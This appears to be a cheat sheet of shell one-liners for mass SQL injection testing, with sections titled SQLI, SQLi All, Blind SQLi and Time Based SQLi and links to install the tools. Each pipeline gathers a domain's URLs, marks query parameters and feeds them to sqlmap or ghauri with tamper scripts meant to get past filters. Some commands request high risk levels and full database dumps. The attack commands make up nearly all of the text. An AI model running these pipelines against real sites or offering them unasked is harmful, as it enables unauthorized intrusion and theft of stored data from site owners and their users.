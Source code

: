 ### SQLI
```
urlfinder -d "vulnweb.com" -all| iconv -f ISO-8859-1 -t UTF-8 | match -r "*" -m ~/payloads/sqli.txt | anew | httpx -duc | tee sqli.txt; sqlmap -m sqli.txt --batch --current-db --random-agent --tech=EBT --tamper=space2comment,xforwardedfor,symboliclogical,between,charunicodeencode
```
### SQLi All
```
urlfinder -d "example.com" -all | grep -aE '\.(php|asp|aspx|jsp|cfm)' | qsreplace "SQLI" | grep -a "SQLI" | anew > sqli.txt;ghauri -m sqli.txt --random-agent --confirm --force-ssl --level=3 --dbs --dump --batch
```
<p>install <a href="https://github.com/projectdiscovery/urlfinder" target="_blank">urlfinder</a>, <a href="https://github.com/tomnomnom/qsreplace" target="_blank">qsreplace</a>, <a href="https://github.com/tomnomnom/anew" target="_blank">anew</a>, <a href="https://github.com/r0oth3x49/ghauri" target="_blank">ghauri</a></p>

### Blind SQLi
```
urlfinder -d "example.com" -all | grep -aE '\.(php|asp|aspx|jsp|cfm)' | qsreplace "SQLI" | grep -a "SQLI" | anew > sqli.txt;sqlmap -m sqli.txt --technique=BT --level=5 --risk=3 --tamper=space2comment,sleep2getlock,space2randomblank,between,randomcase,randomcomments,bluecoat,ifnull2ifisnull --batch --random-agent --no-cast --current-db --hostname
```
<p>install <a href="https://github.com/projectdiscovery/urlfinder" target="_blank">urlfinder</a>, <a href="https://github.com/tomnomnom/qsreplace" target="_blank">qsreplace</a>, <a href="https://github.com/tomnomnom/anew" target="_blank">anew</a>, <a href="https://github.com/sqlmapproject/sqlmap" target="_blank">sqlmap</a></p>

### Time Based SQLi
```
urlfinder -d "example.com" -all | grep -aE '\.(php|asp|aspx|jsp|cfm)' | qsreplace "SQLI" | grep -a "SQLI" | anew > sqli.txt;sqlmap -m sqli.txt --technique=T --level=5 --risk=3 --tamper=space2comment,space2plus,space2randomblank,space2morehash,between,randomcase,charencode,symboliclogical --batch --random-agent --no-cast --time-sec=10 --current-db --count
```
<p>install <a href="https://github.com/projectdiscovery/urlfinder" target="_blank">urlfinder</a>, <a href="https://github.com/tomnomnom/qsreplace" target="_blank">qsreplace</a>, <a href="https://github.com/tomnomnom/anew" target="_blank">anew</a>, <a href="https://github.com/sqlmapproject/sqlmap" target="_blank">sqlmap</a></p>
